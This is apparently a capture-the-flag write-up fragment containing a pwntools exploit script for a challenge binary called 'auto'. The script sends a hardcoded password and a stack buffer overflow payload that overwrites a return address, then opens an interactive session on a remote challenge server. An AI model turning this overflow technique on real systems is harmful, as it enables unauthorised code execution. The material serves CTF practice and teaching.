 exp：

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='auto'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('81.70.195.166',10001)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

#UCIJEURI

z('b*0x80486ED')
sla('password:','UXYUKVNZ')
sla('password again: ',b'deadbeef\x00'+b'a'*(0x50-9-4)+p32(0x8048665))

ia()
```



### paper
